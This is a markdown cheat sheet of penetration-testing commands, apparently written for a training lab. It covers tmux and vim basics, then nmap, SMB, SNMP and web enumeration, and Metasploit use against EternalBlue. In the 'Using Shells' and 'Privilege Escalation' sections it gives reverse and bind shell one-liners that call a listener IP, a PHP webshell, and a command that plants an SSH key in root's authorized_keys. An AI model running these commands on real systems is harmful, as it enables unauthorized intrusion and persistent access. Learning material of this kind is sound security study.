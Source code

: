   
## Basic Tools
**Command** | **Description**
|--|--|
**General** | 
`sudo openvpn user.ovpn` | Connect to VPN
`ifconfig`/`ip a` | Show our IP address
`netstat -rn` | Show networks accessible via the VPN
`ssh  user@10.10.10.10` | SSH to a remote server
`ftp 10.129.42.253` | FTP to a remote server
**tmux** | 
`tmux`  | Start tmux
`ctrl+b` | tmux: default prefix
`prefix c` | tmux: new window
`prefix 1` | tmux: switch to window (`1`)
`prefix shift+%` | tmux: split pane vertically
`prefix shift+"` | tmux: split pane horizontally
`prefix ->` | tmux: switch to the right pane
**Vim**  |
`vim file` | vim: open  `file`  with vim
`esc+i` | vim: enter  `insert`  mode
`esc` | vim: back to  `normal`  mode
`x` | vim: Cut character
`dw` | vim: Cut word
`dd` | vim: Cut full line
`yw` | vim: Copy word
`yy` | vim: Copy full line
`p` | vim: Paste
`:1` | vim: Go to line number 1.
`:w` | vim: Write the file 'i.e. save'
`:q` | vim: Quit
`:q!`  | vim: Quit without saving
`:wq` | vim: Write and quit

## Pentesting
**Command** | **Description**
|--|--|
**Service Scanning** |
`nmap 10.129.42.253` | Run nmap on an IP
`nmap -sV -sC -p- 10.129.42.253` | Run an nmap script scan on an IP
`locate scripts/citrix` | List various available nmap scripts
`nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run an nmap script on an IP
`netcat 10.10.10.10 22` | Grab banner of an open port
`smbclient -N -L \\\\10.129.42.253` | List SMB Shares
`smbclient \\\\10.129.42.253\\users` | Connect to an SMB share
`snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | Scan SNMP on an IP
`onesixtyone -c dict.txt 10.129.42.254` | Brute force SNMP secret string
**Web Enumeration** |
`gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` |Run a directory scan on a website
`gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website
`curl -IL https://www.inlanefreight.com` | Grab website banner
`whatweb 10.10.10.121` | List details about the webserver/certificates
`curl 10.10.10.121/robots.txt` | List potential directories in  `robots.txt`
`ctrl+U` | View page source (in Firefox)
**Public Exploits** |
`searchsploit openssh 7.2` | Search for public exploits for a web application
`msfconsole` | MSF: Start the Metasploit Framework
`search exploit eternalblue` | MSF: Search for public exploits in MSF
`use exploit/windows/smb/ms17_010_psexec` | MSF: Start using an MSF module
`show options` | MSF: Show required options for an MSF module
`set RHOSTS 10.10.10.40` | MSF: Set a value for an MSF module option
`check` | MSF: Test if the target server is vulnerable
`exploit` | MSF: Run the exploit on the target server is vulnerable
**Using Shells** | 
`nc -lvnp 1234` | Start a  `nc`  listener on a local port
`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`| Another command to send a reverse shell from the remote server
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server
`nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server
`python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1)
`ctrl+z`  then  `stty raw -echo`  then  `fg`  then  `enter`  twice| Upgrade shell TTY (2)
`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` |Create a webshell php file
`curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell
**Privilege Escalation** | 
`./linpeas.sh` | Run  `linpeas`  script to enumerate remote server
`sudo -l` | List available  `sudo`  privileges
`sudo -u user /bin/echo Hello World!` | Run a command with  `sudo`
`sudo su -` | Switch to root user (if we have access to  `sudo su`)
`sudo su user -` | Switch to a user (if we have access to  `sudo su`)
`ssh-keygen -f key` | Create a new SSH key
`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user
`ssh  root@10.10.10.10  -i key` | SSH to the server with the generated private key
**Transferring Files** |
`python3 -m http.server 8000` | Start a local webserver
`wget http://10.10.14.1:8000/linpeas.sh` | Download a file on the remote server from our local machine
`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine
`scp linenum.sh user@remotehost:/tmp/linenum.sh` | Transfer a file to the remote server with  `scp`  (requires SSH access)
`base64 shell -w 0` | Convert a file to  `base64`
`echo f0VMR...SNIO...InmDwU | base64 -d > shell` | Convert a file from  `base64`  back to its orig
`md5sum shell` | Check the file's  `md5sum`  to ensure it converted correctly
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE2NDYxMzExMTJdfQ==
-->